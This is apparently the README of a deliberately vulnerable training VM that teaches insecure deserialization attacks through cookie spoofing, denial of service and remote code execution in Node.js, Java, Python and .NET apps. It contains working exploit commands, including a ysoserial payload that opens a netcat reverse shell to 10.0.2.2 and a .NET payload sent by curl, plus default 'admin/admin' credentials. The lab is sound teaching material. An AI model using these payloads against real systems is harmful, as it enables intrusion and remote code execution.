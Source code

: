 # Insecure DEserialization Attack box (IDEAbox)

A virtual machine with several web applications to demonstrate insecure deserialization vulnerabilities and ways to exploit them.

## Setup

### Prerequisites

1. Vagrant
2. VirtualBox

### Installation

`vagrant up`

## Usage

If the installation goes well (if it doesn't, let me know!), three web applications are available:

- Cookie spoofing (Node.js) - http://localhost:3001
- Denial of service (Java) - http://localhost:3002/ideabox
- Remote code execution (Python) - http://localhost:3004


### Cookie spoofing (Node.js, JSON)

1. Go to http://localhost:3001
2. Click on *insecure*
   - Open browser developer tools and analyze the `user` cookie
      - What does it look like?
      - Is it encoded in some way?
      - What do you see if you decode it?
   - Can you modify the cookie and elevate privileges?
3. Go to *secure* and check the cookie
   - Can you spoof it now? Why not?
   - Look at the source code in `web/node` to understand why.


### Denial of service (Java, native serialization)

1. Go to http://localhost:3002/ideabox
2. Go to *Factory* 
   - Download an object and store it on disk.
   - What does it look like? (native Java serialized object).
3. Go to *Store*
   - Upload an object and see what happens (all should be good)
4. Go to *Hacktory* and get the payloads
   - Go back to *Store* and upload.
   - What's going on?
5. Go to *Secure Store* and try the payloads
   - The application rejects malicious stuff.
   - Look at the code in `web/java/WEB-INF/classes` to understand why.

*Note: you can access Tomcat Manager at http://localhost:3003/manager Of course it's secure! The user name is 'admin', and the password is 'admin' :)*


### Remote code execution (Python, pickle)

1. Go to http://localhost:3004
2. Look at the `session` cookie. Does it look like, maybe, Python serialized data?
3. Go to `web/python` and generate a payload:
   `python3 payload.py`
4. Fire up a local netcat listener:
   `nc -nlvp 1337`
5. In the browser, replace the `session` cookie with the payload and reload the page
6. Did netcat get a connection? It's a reverse shell! Run a few shell command and see.
7. Look at the code in `web/python` to understand why


### Remote code execution (Java, native)

1. Download [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
1. Generate the payload:
   `java -jar ~/tools/ysoserial.jar CommonsBeanutils1 'nc -e /bin/bash 10.0.2.2 1337' > revshell.ser`
1. Fire up a local netcat listener:
   `nc -nlvp 1337`
1. Go to http://localhost:3003/ideabox
1. Go to *Store*
1. "Sell" the payload


### Remote code execution (.NET, native)

You'll need a Windows machine with Visual Studio. You can use [Windows 10 dev env VM](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

1. Download [ysoserial.net](https://github.com/pwntester/ysoserial.net), open and compile the solution in Visual Studio.
1. In Command Line window, navigate to the folder that contains the compiled executable (e.g. ysoserial\bin\Debug) and generate the payload:
   `ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o raw -c "calc.exe" > \Users\User\execute-calc.raw`
1. Open [CyberPark.sln](web/net/CyberPark/CyberPark.sln) in Visual Studio, compile and run. It should open a browser window with http://localhost:50376
1. Start Ubuntu app in Windows and try the following to see how the API works:
   1. `curl -s http://localhost:50376/api/auth`
   1. `curl -s http://localhost:50376/api/auth -H "Authorization: AAEAAAD/////AQAAAAAAAAARAQAAAAIAAAAGAgAAAAN0aGUGAwAAAARiZXN0Cw=="`
1. Finally, send the payload:
   `curl -s http://localhost:50376/api/auth -H "Authorization: $(base64 -w 0 execute-calc.raw)"`
   and enjoy the Calculator.



